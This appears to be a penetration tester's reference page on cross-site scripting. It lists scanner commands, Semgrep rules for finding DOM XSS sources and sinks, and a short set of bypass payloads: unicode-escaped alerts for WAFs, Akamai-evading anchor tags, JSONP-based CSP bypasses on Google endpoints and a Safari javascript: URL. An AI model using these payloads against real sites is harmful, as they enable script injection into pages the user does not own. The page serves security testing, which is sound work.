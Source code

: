+++
title = 'XSS'
+++

```
# https://github.com/hahwul/dalfox
dalfox url http://example.com
cat urls | dalfox pipe -  --skip-bav --skip-mining-all
```

Find reflected parameters that could lead to XSS with Gxss

```
# https://github.com/KathanP19/Gxss
cat list | Gxss -c 100 -p REPLACE_STRING
```

## Semgrep

Semgrep can be used to detect sink and sources and assist in XSS detection.

### Usage

Download javascript files and beautify them (See [Javascript](https://caon.io/docs/exploitation/javascriptfiles/#download)), then run semgrep with

```
semgrep -c xss.yaml scripts/*
```

{{< hint danger >}} **Hold down!**

Javascript files must be beautified, otherwise semgrep will no work properly. {{< /hint >}}

```yaml
rules:
  - id: domxss-insertAdjacentHTML
    languages:
      - javascript
      - typescript
    message: Found dangerous HTML output
    pattern-either:
      - pattern: document.location.search = ...
      - pattern: document.location.hash = ...
      - pattern: document.location.pathname = ...
      - pattern: window.location.search = ...
      - pattern: window.location.hash = ...
      - pattern: window.location.pathname = ...
      - pattern: document.URL = ...
      - pattern: document.documentURI = ...
      - pattern: document.baseURI = ...
      - pattern: document.cookie = ...
      - pattern: document.referrer = ...
      - pattern: $X.insertAdjacentHTML(...)
      - pattern: $X.innerHTML(...)
      - pattern: $X.innerHTML = ...
      - pattern: eval(...)
      - pattern: execScript
      - pattern: script.src = ...
      - pattern: iframe.src = ...
      - pattern: document.location = ...
      - pattern: window.location = ...
      - pattern: document.location.href = ...
      - pattern: window.location.href = ...
      - pattern: document.write(...)
      - pattern: document.writeln(...)
      - pattern: $X.outerHTML = ...
      - pattern: $X.outerHTML(...)
    severity: WARNING
```

```yaml
rules:
  - id: domxss-insertAdjacentHTML
    languages:
      - javascript
      - typescript
    message: Found dangerous HTML output
    mode: taint
    pattern-sources:
      - pattern: document.location.search
      - pattern: document.location.hash
      - pattern: document.location.pathname
      - pattern: document.location.href
      - pattern: document.location
      - pattern: window.location
      - pattern: window.location.href
      - pattern: window.location.search
      - pattern: window.location.hash
      - pattern: window.location.pathname
      - pattern: document.URL
      - pattern: document.documentURI
      - pattern: document.baseURI
      - pattern: document.cookie
      - pattern: document.referrer
    pattern-sinks:
      - pattern: $X.insertAdjacentHTML(...)
      - pattern: $X.innerHTML(...)
      - pattern: $X.innerHTML = ...
      - pattern: eval(...)
      - pattern: execScript
      - pattern: script.src = ...
      - pattern: iframe.src = ...
      - pattern: document.location = ...
      - pattern: window.location = ...
      - pattern: document.location.href = ...
      - pattern: window.location.href = ...
      - pattern: document.write(...)
      - pattern: document.writeln(...)
      - pattern: $X.outerHTML = ...
      - pattern: $X.outerHTML(...)
    severity: WARNING
```

## Markdown

Markdown parsers can lead to XSS

- https://swarm.ptsecurity.com/fuzzing-for-xss-via-nested-parsers-condition/

## Bypass

Try to encode characters with unicode to achieve WAF bypass

alert(1) would become ale\u{72}t(1\x29, where

\u{72} is unicode to r
\x29 is unicode to )

## Akamai Bypass

Sometimes works:

```
"><a/\test="%26quot"href=%27javascript:/**/;\ale\u{72}t(11111\x29");%27>Click
"><a/\test="%26quot;x%26quot;"href=%27javascript:/**/;location.assign("google.com")%27>Click</a>
```

## CSP Bypass

If the site has google whitelisted, the following could be used:

```
www.google.com/complete/search?client=chrome&q=1&jsonp=alert(1)//
accounts.google.com/o/oauth2/revoke?callback=alert(1)

```

## Safari

```
javascript://trusted.example.com/%0Aalert()
```

# Cool resources

| URL | Description |
| --- | --- |
| https://xss.pwnfunction.com/ | pwnfunction XSS game |
| https://github.com/s0md3v/MyPapers/tree/master/Bypassing-XSS-detection-mechanisms | Bypass Mechanisms | 
| https://htmlparse.hackaplaneten.se/ | Parser Issues |
